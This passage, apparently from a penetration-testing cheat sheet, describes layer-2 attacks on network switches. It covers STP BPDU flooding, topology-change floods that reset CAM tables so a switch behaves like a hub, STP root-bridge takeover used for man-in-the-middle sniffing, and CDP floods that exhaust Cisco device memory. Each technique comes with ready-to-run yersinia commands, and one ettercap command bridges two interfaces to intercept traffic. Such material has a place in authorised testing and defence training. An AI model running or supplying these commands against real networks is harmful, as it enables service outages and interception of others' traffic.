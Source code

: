 #### **STP BPDU DoS**

Sending a lot of BPDUs TCP (Topology Change Notification) or Conf (the BPDUs that are sent when the topology is created) the switches are overloaded and stop working correctly.

```bash
yersinia stp -attack 2
yersinia stp -attack 3
#Use -M to disable MAC spoofing
```

#### **STP TCP Attack**

When a TCP is sent, the CAM table of the switches will be deleted in 15s. Then, if you are sending continuously this kind of packets, the CAM table will be restarted continuously (or every 15segs) and when it is restarted, the switch behaves as a hub

```bash
yersinia stp -attack 1 #Will send 1 TCP packet and the switch should restore the CAM in 15 seconds
yersinia stp -attack 0 #Will send 1 CONF packet, nothing else will happen
```

#### **STP Root Attack**

The attacker simulates the behaviour of a switch to become the STP root of the network. Then, more data will pass through him. This is interesting when you are connected to two different switches.\
This is done by sending BPDUs CONF packets saying that the **priority** value is less than the actual priority of the actual root switch.

```bash
yersinia stp -attack 4 #Behaves like the root switch
yersinia stp -attack 5 #This will make the device behaves as a switch but will not be root
```

**If the attacker is connected to 2 switches he can be the root of the new tree and all the traffic between those switches will pass through him** (a MITM attack will be performed).

```bash
yersinia stp -attack 6 #This will cause a DoS as the layer 2 packets wont be forwarded. You can use Ettercap to forward those packets "Sniff" --> "Bridged sniffing"
ettercap -T -i eth1 -B eth2 -q #Set a bridge between 2 interfaces to forwardpackages
```

### CDP Attacks

CISCO Discovery Protocol is the protocol used by CISCO devices to talk among them, **discover who is alive** and what features does they have. You can make a DoS attack to a CISCO switch by exhausting the device memory simulating real CISCO devices.

You could use `Yersina` to capture CDP frames and show the information

```bash
sudo yersinia cdp -attack 1 #DoS Attack simulating new CISCO devices
sudo yersinia cdp -attack 2 #Simulate a new CISCO device
sudo yersinia cdp -attack 0 #Send a CDP packet
```

You could also use [scapy](https://github.com/secdev/scapy/). Be sure to install it with `scapy/contrib` package.
